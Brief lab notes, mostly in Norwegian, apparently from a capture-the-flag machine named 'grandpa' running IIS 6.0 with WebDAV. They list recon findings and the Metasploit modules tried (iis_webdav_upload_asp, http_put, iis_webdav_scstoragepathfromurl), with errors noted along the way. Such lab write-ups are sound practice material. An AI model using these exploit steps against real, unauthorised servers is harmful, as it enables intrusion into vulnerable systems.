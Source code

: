 ## grandpa 10.10.10.14

* Uncommon header 'microsoftofficewebserver' found, with contents: 5.0\_Pub

kjører iis 6.0. kan exploites med webdav?

exploit/windows/iis/iis\_webdav\_upload\_asp skulle fungert, men gjør ikke det. får server error

use auxiliary/scanner/http/http\_put

use exploit/windows/iis/iis\_webdav\_upload\_asp

403 forbidden

http://10.10.10.14/images/ eksisterer

10.10.10.14 \(Microsoft-IIS/6.0\) has WEBDAV ENABLED

use exploit/windows/iis/iis\_webdav\_scstoragepathfromurl

